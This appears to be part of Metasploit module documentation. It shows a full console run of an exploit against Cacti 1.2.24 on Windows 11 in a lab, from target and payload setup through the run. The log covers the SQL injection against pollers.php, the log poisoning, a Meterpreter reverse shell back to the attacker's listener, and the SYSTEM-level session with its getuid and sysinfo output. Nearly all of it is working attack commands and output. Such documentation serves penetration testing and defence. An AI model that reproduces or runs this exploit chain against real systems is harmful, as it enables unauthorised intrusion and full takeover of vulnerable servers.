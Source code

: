 ### Cacti version 1.2.24 on Windows 11
```
msf6 exploit(multi/http/cacti_pollers_sqli_rce) > set target 1
target => 1
msf6 exploit(multi/http/cacti_pollers_sqli_rce) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/cacti_pollers_sqli_rce) > run rhost=192.168.144.134 lhost=192.168.144.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.144.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.24
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `pollers.php`
[*] Attempting SQLi to check if the target is vulnerable
[+] The target is vulnerable.
[*] Backing up the current log file path and adding a new path (log/cacti715.log) to the `settings` table
[*] Inserting the log file path `log/cacti715.log` to the external links table
[*] Getting the user ID and setting permissions (it might take a few minutes)
[*] Logging again to apply new settings and permissions
[*] Getting the CSRF token to login
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Poisoning the log
[*] Triggering the payload
[*] Sending stage (200774 bytes) to 192.168.144.134
[*] Cleaning up log file
[*] Meterpreter session 7 opened (192.168.144.1:4444 -> 192.168.144.134:64144) at 2024-01-29 21:58:59 +0100
[*] Cleaning up external link using SQLi
[*] Cleaning up permissions using SQLi
[*] Cleaning up the log path in `settings` table using SQLi

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-26CQRHP
OS              : Windows 11 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
